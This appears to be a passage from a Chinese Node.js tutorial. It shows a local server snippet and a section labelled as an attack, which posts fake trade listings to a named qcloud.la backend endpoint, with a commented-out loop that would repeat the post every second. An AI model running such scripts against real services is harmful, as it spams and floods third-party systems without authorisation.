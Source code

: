 ```js
server.listen(8080, () => {
  console.log('localhost:8080')
})
```

#### 3.2 post：服务器提交（攻击）

```js
const https = require('https')
const querystring = require('querystring')

const postData = querystring.stringify({
  province: '上海',
  city: '上海',
  district: '宝山区',
  address: '同济支路199号智慧七立方3号楼2-4层',
  latitude: 43.0,
  longitude: 160.0,
  message: '求购一条小鱼',
  contact: '13666666',
  type: 'sell',
  time: 1571217561
})

const options = {
  protocol: 'https:',
  hostname: 'ik9hkddr.qcloud.la',
  method: 'POST',
  port: 443,
  path: '/index.php/trade/add_item',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Content-Length': Buffer.byteLength(postData)
  }
}

function doPost() {
  let data

  let req = https.request(options, (res) => {
    res.on('data', chunk => data += chunk)
    res.on('end', () => {
      console.log(data)
    })
  })

  req.write(postData)
  req.end()
}

// setInterval(() => {
//   doPost()
// }, 1000)
```
